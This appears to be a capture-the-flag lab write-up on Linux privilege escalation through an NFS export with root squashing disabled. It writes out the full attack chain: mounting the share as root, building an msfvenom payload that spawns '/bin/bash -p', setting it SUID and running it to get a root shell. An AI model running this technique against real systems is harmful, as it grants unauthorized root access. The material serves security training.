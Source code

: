 # [Task 19] NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
cat /etc/exports
```

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```bash
sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

```bash
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```bash
/tmp/shell.elf
```

**Remember to exit out of the root shell before continuing!**

## #1 - What is the name of the option that disables root squashing?

**On the server**

```bash
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#       to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)

user@debian:~$ 
```